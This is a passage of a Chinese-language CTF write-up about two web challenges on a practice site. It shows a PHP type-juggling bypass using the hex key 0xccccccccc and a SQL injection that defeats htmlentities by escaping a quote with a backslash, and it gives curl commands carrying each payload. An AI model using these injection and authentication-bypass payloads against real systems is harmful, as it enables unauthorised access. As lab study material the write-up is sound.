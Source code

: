 ```php
$flag='*******';
if(noother_says_correct($_GET['key']))
   echo $flag;
else 
   echo 'access denied';
```

可以留意到比较范围是1-9，少了0，可能是因为答案需要十六进制前缀0x的关系；在使用==比较的时候，php会将十六进制的数字字符串转型为整数。刚好 54975581388 的16进制表示`0xccccccccc`没有1-9。

```shell
curl http://chinalover.sinaapp.com/web12/index.php?key=0xccccccccc
```

## [SQL Injection](http://chinalover.sinaapp.com/web15/index.php)
先通过curl看一下有没有源代码`curl http://chinalover.sinaapp.com/web15/index.php -v`
```php
#GOAL: login as admin,then get the flag;
error_reporting(0);
require 'db.inc.php';

function clean($str){
  if(get_magic_quotes_gpc()){
    $str=stripslashes($str);
  }
  return htmlentities($str, ENT_QUOTES);
}

$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
$result=mysql_query($query);
if(!$result || mysql_num_rows($result) < 1){
        die('Invalid password!');
}

echo $flag;
```

一开始以为目标是注释掉SQL的pass条件，试了几次没有结果之后谷歌了一下，发现目标搞错了。`htmlentities` 始终会把单引号用 html 实体编码，因此无法通过输入单引号来实现闭合的目的。
```php
$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\'
```
一番谷歌之后，留意到SQL语句有4个单引号。输入单引号闭合第一个的方法行不通，但是可以尝试让后面已经存在的第三个单引号闭合第一个，这就需要用到反斜杠转义来消除第二个单引号，同时使用注释无视最后一个单引号。目标SQL长类似这样：

```sql
SELECT * FROM users WHERE name='25252\' AND pass=' or 1=1 -- a';
```

```shell
curl 'http://chinalover.sinaapp.com/web15/index.php?username=25252%5C&password=%20or%201%3D1%20--%20a'
```
